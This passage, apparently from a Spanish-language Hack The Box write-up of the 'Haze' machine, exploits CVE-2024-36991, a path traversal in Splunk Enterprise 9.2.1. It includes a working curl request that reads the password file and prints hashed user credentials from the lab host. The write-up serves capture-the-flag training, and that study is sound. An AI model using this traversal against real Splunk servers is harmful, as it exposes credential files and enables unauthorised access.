 ![](assets/img/htb-writeup-haze/haze1_2.png)

En este caso, `Splunk Enterprise 9.2.1`, desplegada sobre Windows es susceptible a la vulnerabilidad [CVE-2024-36991](https://nvd.nist.gov/vuln/detail/cve-2024-36991), lo que permite a un atacante remoto sin autenticación acceder a archivos arbitrarios del sistema mediante path traversal <a id="path-traversal" href="#cwe-22" class="cwe-ref">(CWE-22)</a> en el endpoint `/modules/messaging/`.

---
## Initial Access

### Exploit Public-Facing Application

El blog [critical-splunk-vulnerability](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads) explica detalladamente como aprovecharse de esta vulnerabilidad. Puedo intentar acceder al /etc/passwd para verificar la vulnerabilidad.

Esta falla, descrita en detalle en [critical-splunk-vulnerability](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads), permite realizar un path traversal utilizando prefijos tipo `C:../` dentro de la URL. Para verificar la existencia de la falla, intento acceder a un archivo estándar como `/etc/passwd`.

```terminal
/home/kali/Documents/htb/machines/haze:-$ curl --path-as-is 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd'
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```
